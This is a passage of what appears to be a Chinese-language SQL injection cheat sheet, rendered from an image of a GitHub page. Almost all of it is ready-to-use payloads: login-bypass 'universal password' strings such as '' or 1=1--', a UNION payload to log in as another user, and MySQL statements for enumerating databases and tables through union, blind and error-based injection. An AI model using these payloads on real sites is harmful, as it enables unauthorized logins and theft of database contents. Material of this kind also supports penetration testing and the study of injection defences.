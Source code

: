 ### 字符串编码

-   `ASCII()`：返回字符的 ASCII 码值
-   `CHAR()`：把整数转换为对应的字符

## 后台万能密码

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

-   union 查询

    ```sql
    --MySQL 4版本时用version=9，MySQL 5版本时用version=10
    UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
    UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
    ```

-   报错

    ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- 在5.1.5版本中成功。
    ```
